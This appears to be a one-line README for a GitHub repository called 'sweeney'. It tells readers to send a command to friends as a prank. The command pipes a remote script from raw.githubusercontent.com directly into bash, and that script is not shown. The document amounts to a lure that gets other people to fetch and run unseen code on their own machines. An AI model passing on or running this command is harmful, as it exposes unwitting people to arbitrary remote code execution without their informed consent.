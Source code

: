 # sweeney
send this to your friends to totally sweeney them
```curl -s https://raw.githubusercontent.com/x86Overflow/sweeney/main/sweeney | bash```

